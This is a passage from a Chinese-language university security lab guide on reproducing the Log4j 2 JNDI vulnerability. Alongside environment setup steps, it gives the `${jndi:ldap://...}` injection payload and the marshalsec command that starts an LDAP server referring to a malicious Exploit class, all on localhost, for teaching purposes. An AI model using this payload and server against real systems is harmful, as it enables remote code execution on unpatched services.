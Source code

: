 

JNDI 的实现方式有很多种，目前主要采用 RMI 和 LDAP 的实现方式来复现 Log4j 2 漏洞。

+ RMI：java 中的远程方法调用
+ LDAP：一个轻量级目录访问协议

以 LDAP 为例，在复现漏洞实现攻击时，我们可以构建一个以  `${` 和 `}`  为开头和结尾的字符串，例如 `${jndi:ldap://127.0.0.1:1389/Exploit}` ，Log4j2 会去解析此字符串，通过 JNDI 下的 LDAP 协议请求到本地1389端口下的 Exploit 恶意 class 文件。


### 3.3 marshalsec

[marshalsec](https://github.com/mbechler/marshalsec) 是一款 Java 反序列化利用工具，本次实验使用 marshalsec 来启动 LDAP 服务

下载完成后在根目录打开 cmd 窗口，执行以下命令打包为 jar

```
mvn clean package -DskipTests
```

执行成功会生成一个 target 文件夹，进入此文件夹，并再打开一个 cmd 窗口，执行以下命令即可启动一个 LDAP 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"
```


### 3.4 MySQL

MySQL 是一个关系型数据库管理系统，是最流行的关系型数据库管理系统之一。

MySQL 的安装与配置参考[这篇博客](https://www.sjkjc.com/mysql/install-on-windows/)

### 3.5 Redis

Redis 是一个高性能的 key-value 存储系统，在 4.2 的 Web 应用中会用到，但安装与否不影响实验

Redis的[安装地址](https://github.com/tporadowski/redis/releases)


### 3.6 Python

实验过程中可能需要使用 python 命令来运行一个 http server，需要在本地配置 python 环境。

python 环境的安装和配置请同学们自行 Google。

### 3.7 JDK 和 Maven

注意下载对应操作系统的 JDK, 并将其添加到环境变量。JDK 和 Maven 的配置：

+ [Windows jdk1.8下载地址](https://www.oracle.com/java/technologies/downloads/#java8-windows) 

+ [Maven 的安装配置方法](https://www.runoob.com/maven/maven-setup.html)

## 4.实验步骤

本实验提供 Log4j2Vul 和 White-Jotter 两个文件夹，[项目下载地址](https://gitee.com/zjusec/syssec23-stu.git)
